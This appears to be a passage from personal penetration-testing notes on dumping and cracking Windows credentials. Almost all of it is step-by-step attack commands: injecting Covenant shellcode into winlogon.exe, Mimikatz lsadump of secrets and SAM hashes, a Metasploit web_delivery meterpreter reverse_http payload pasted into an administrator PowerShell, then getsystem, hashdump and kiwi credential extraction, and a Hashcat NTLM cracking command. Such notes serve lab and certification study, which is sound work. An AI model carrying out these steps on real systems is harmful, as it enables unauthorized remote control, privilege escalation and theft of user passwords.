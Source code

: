 ```bash
		- Find `winlogon.exe` and identify the PID
		- Go to `Launchers`
			- `ShellCode`
				- DotNetVersion: `Net40`
				- `Generate`
				- `Download`
		- `inject`
			- Enter the `winlogon.exe` PID
			- Add the recently generated shellcode *.bin* file
		- `Execute`
```
- Execute in `High` level grunt:
	- `Mimikatz token::elevate lsadump::secrets`
		- Locate any *cahced* credentials with the above output
	- `Mimikatz token::elevate lsadump::sam`
		- Hashes for user password will be located here
		- Note: The hashes are stored in `Covenant` under the `Data` tab
![image](https://0xc0rvu5.github.io/docs/assets/images/20221126102648.png)

### Dumping Hashes with Metasploit
- On Kali:
	- `msfconsole`
		- `search web_delivery`
		- `use 1`
		- `set target 2` **this sets up a powershell.exe shell**
		- `set payload windows/x64/meterpreter/reverse_http`
		- `set lhost eth0`
		- `set lport 8081`
		- `exploit -j`
		- Copy payload
- On Windows host:
	- Open `Powershell as Administrator`
		- paste `copied payload here`
- On Kali:
	- `sessions -i 1`
	- Determine current user privileges
		- `run post/windows/gather/win_privs`
		- `getsystem`
		- `hashdump`
			- If any of the output hashes end in `c089c0` this most likely means the account is **disabled**
		- Load `mimikatz`
			- `load kiwi`
				- Determine relevant commands for `kiwi`
					- `help`
				- `creds_all`
					- Somewhat less relevant now
				- `lsa_dump_sam`
				- `lsa_dump_secrets`

### Rulelist Hash Cracking with Hashcat
- On Windows to utilize GPU
	- `.\hashcat.exe -a 0 -m 1000 3b866477b216ed62e3f1b00b8b289070 -r .\OneRuleToRuleThemAll.rule .\rockyou.txt`
